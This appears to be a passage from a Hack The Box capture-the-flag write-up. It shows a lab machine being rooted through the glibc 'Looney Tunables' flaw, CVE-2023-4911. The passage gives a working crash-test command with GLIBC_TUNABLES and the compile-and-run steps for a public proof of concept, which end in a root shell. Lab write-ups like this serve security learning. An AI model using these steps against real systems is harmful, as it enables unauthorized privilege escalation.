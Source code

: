 ### Root.txt

```bash
root@2million:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)

root@2million:/root# cat root.txt
df2dda740438d294e32ded660b6cdc59
```

## Privilege Escalation (root) \[v2\]

\[Following guided mode of HTB!\]

```bash
admin@2million:/tmp/tmp.Eqx6aFcEpS/CVE-2023-0386-master$ ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.1) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

The glibc version is vulnerable to **[CVE-2023-4911](https://github.com/leesh3288/CVE-2023-4911)**

- Qualsys Blog Post: [https://blog.qualys.com/vulnerabiliti...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbVRhaFNTckRZbGR2T2h4QmgwcWswLS02ZVpHd3xBQ3Jtc0trUHNzTEN4SW5NOVNEOVljdjZCV3JDZlpDcW1BVWRtY0dYcVJSMHlHUHdWUmUtUVI3MEVuRE1rbWRGSGxoQ0F4eFNreW1Ld3U0cldHcnF0ZHRCQzI1dTJralJPam1vcVA0TmpWc2dOc1ZXelBjbUR4WQ&q=https%3A%2F%2Fblog.qualys.com%2Fvulnerabilities-threat-research%2F2023%2F10%2F03%2Fcve-2023-4911-looney-tunables-local-privilege-escalation-in-the-glibcs-ld-so&v=1iV-CD9Apn8) - 
- Qualsys Tech Details: [https://www.qualys.com/2023/10/03/cve...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbEJXVEdncEhGZkxwYWFwMVVTZjJuUWZDR05Md3xBQ3Jtc0tuWF8yaFNsZEhyUlBJcVBHYnpULUhIWW41d0lkdGdLLVpFOHNrelJoYWZieGVlUUxscVl6eTVFZmx5OVZyWHBOVVpiRGNWVEFURUZXNy1WanhNWW56eXpfaTZKY2JOaXVTb1lnR1Jib0NVRHRRdjNyRQ&q=https%3A%2F%2Fwww.qualys.com%2F2023%2F10%2F03%2Fcve-2023-4911%2Flooney-tunables-local-privilege-escalation-glibc-ld-so.txt&v=1iV-CD9Apn8)

```bash
admin@2million:/tmp/tmp.Eqx6aFcEpS/CVE-2023-0386-master$ env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
Segmentation fault (core dumped) # <-- Exploit will work
```

The given PoC is kind of complicated to make work, 

```bash
admin@2million:/tmp/tmp.Eqx6aFcEpS/CVE-2023-4911$ gcc exp.c
admin@2million:/tmp/tmp.Eqx6aFcEpS/CVE-2023-4911$ ./a.out
try 100
try 200
try 300
try 400
try 500
try 600
try 700
try 800
try 900
try 1000
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```